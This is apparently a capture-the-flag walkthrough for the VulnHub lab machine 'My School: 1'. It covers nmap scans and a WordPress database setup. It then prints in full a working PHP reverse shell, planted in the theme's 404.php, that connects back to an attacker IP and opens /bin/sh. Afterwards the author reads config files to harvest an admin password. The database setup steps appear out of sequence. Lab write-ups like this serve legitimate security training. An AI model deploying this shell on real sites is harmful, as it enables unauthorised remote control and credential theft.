::::::::::::::::::::::::::::::: page
# My School: 1 {#my-school-1 .title}

\

## 

## My School: 1

- **[My School: 1]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/my-school-1,604/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.107
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.107
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.107
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.107
:::



1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser : <http://192.168.2.107/>
  <http://192.168.2.107/admin/login.php>
  <http://192.168.2.107:8080/wp-admin/setup-config.php>



1.  [Database Enumeration and Access]{style="color:#ff7800;"} :

- Restart MariaDB Service :

::: codebox
    systemctl restart mariadb
:::

- Check Listening Port :

::: codebox
    netstat -nltup | grep 3306
:::



- Open MariaDB Configuration File :

::: codebox
    nano /etc/mysql/mariadb.conf.d/50-server.cnf
:::



- Restart MariaDB Again :

::: codebox
    systemctl restart mariadb
:::

- Verify Remote Listening :

::: codebox
    netstat -nltup | grep 3306
:::



- Login to MariaDB/MySQL :

::: codebox
    mysql -u root -p
:::

- Create Database :

::: codebox
    CREATE DATABASE armour_db;
:::

- Create Database User :

::: codebox
    CREATE USER 'armour'.@'localhost' IDENTIFIED BY 'password';
:::

- Grant Database Privileges :

::: codebox
    GRANT ALL ON armour_db.* TO 'armour'@'%' IDENTIFIED BY 'password' WITH GRANT OPTION;
:::

- Reload Privileges :

::: codebox
    FLUSH PRIVILEGES;
:::

- Exit MariaDB :

::: codebox
    EXIT;
:::



1.  [Login Port 8080 Wordpress]{style="color:#ff7800;"} :
    <http://192.168.2.107:8080/wp-admin/setup-config.php>



- Now open the wordpress configuration setup and fill the database
  information we created just now :







- Now login wordpress :



- In wordpress dashboard login :



1.  [Reverse Shell via Theme Editor]{style="color:#ff7800;"} :

- Go to Appearance .
- Then Go to Theme Editor .
- Then open 404.php file .

<!-- -->

- Remove the 404.php file content and add this :

::: codebox
    <?php

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.2.218';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
      // Fork and have the parent process exit
      $pid = pcntl_fork();
      
      if ($pid == -1) {
         printit("ERROR: Can't fork");
           exit(1);
      }
     
      if ($pid) {
           exit(0);  // Parent exits
     }

       // Make the current process a session leader
      // Will only succeed if we forked
     if (posix_setsid() == -1) {
           printit("Error: Can't setsid()");
           exit(1);
      }

       $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
      printit("ERROR: Can't spawn shell");
        exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
       // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
          break;
        }

       // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
         break;
        }

       // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
     $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
       // data to process's STDIN
        if (in_array($sock, $read_a)) {
           if ($debug) printit("SOCK READ");
           $input = fread($sock, $chunk_size);
           if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }

       // If we can read from the process's STDOUT
       // send data down tcp connection
      if (in_array($pipes[1], $read_a)) {
           if ($debug) printit("STDOUT READ");
         $input = fread($pipes[1], $chunk_size);
           if ($debug) printit("STDOUT: $input");
          fwrite($sock, $input);
        }

       // If we can read from the process's STDERR
       // send data down tcp connection
      if (in_array($pipes[2], $read_a)) {
           if ($debug) printit("STDERR READ");
         $input = fread($pipes[2], $chunk_size);
           if ($debug) printit("STDERR: $input");
          fwrite($sock, $input);
        }
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
       if (!$daemon) {
           print "$string\n";
      }
    }

    ?> 
:::



- Then click to update file .

<!-- -->

- Start the listener :

::: codebox
    nc -nlvp 1234
:::

- Call the url in browser :

::: codebox
    http://192.168.2.107:8080/wp-content/themes/twentyseventeen/404.php
:::

- Given the reverse shell :



1.  [After get the reverse shell find the
    password]{style="color:#ff7800;"} :

::: codebox
    cd /home/armour
:::

::: codebox
    ls
:::

- Find the user.txt :

::: codebox
    cat user.txt
:::

 Find the flag .

- Navigate to Web Root :

::: codebox
    cd /var/www/html
:::

- 

::: codebox
    ls
:::

- 

::: codebox
    cd cmsms
:::

- 

::: codebox
    ls
:::

- 

::: codebox
    cat config.php
:::



- Now login port 80 admin panel :

::: codebox
    Username : armour
    Password : SW)#$of4-9056d
:::



- Successfully Login the admin page :


:::::::::::::::::::::::::::::::
